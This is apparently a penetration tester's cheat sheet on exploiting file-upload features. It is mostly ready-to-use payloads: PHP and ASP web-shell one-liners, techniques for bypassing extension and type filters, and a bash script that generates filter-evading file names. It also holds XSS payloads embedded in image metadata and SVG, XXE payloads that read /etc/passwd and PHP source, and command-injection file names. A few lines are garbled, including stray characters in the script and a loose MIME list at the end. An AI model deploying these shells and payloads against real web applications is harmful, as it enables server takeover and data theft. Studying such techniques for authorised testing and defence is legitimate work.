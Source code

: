 # Web Shells
Resources

https://github.com/Arrexel/phpbash
https://github.com/danielmiessler/SecLists/tree/master/Web-Shells
https://github.com/pentestmonkey/php-reverse-shell
https://github.com/danielmiessler/SecLists/tree/master/Web-Shells

## php one liner
```
<?php system ($_REQUEST['cmd']); ?>
```

## ASP oneliner
```
<%eval request('cmd') %>
```


# Bypass Client-Side Validation
	1.Change file extension from Burp
	2. Change HTML code from developer mode
		1. [CTRL+SHIFT+C] --> Page Inspector  
		2. Then do [CTRL+SHIFT+K] to check the code. 

# Blacklist
1. https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst
2. https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP
3. https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt
1. Upload a file
2. Locate the file
3. Fuzz (identify acceptable extension)

# Whitelist
1. FUZZ
2. Double extensions 
	1. .jpg.php
3. Reverse Double Extension
	1. .php.jpg
4. Character Injection
```
%20
%0a
%00
%0d0a
/
.\
.
…
:
```
Bash script to 
```bash
#!/bin/bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps' '.phar' '.php7' '.pht' '.pht' '.phtml' '.shtml '****; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```



# Type Filters
1. FUZZ Content-Type Header
```
$ wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Miscellaneous/web/content-type.txt

$ cat content-type.txt | grep 'image/' > image-content-types.txt
```
2. MIME -Filter
https://en.wikipedia.org/wiki/List_of_file_signatures
https://opensource.apple.com/source/file/file-23/file/magic/magic.mime
 Add first few bytes. 

# Limited File Uploads
## Stored XSS  - metadata
For Web application that displays metadata, 
Append comment section of an image. 
```

$ exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg

$ exiftool HTB.jpg
```

### XSS-Scalable Vector Graphics
What is SVG? : XML-based images which describe 2D vector. Browser renders into an image. 

Create svg in XML
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```

# XXE
What is XXE?
An XML External Entity attack is a type of attack against an application that parses XML input. This attack occurs when XML input containing a reference to an external entity is processed by a weakly configured XML parser. 

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>


# on PHP server

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>


```

# Injections in File Name
```
e.g.
file$(whoami).jpg 
file`whoami`.jpg
file.jpg||whoami
 <script>alert(window.origin);</script>

```

# Upload Directory Disclosure
Search for Upload directory.

# Windows-Specific Attacks
https://en.wikipedia.org/wiki/8.3_filename
image/jpeg
image/png
image/svc+xml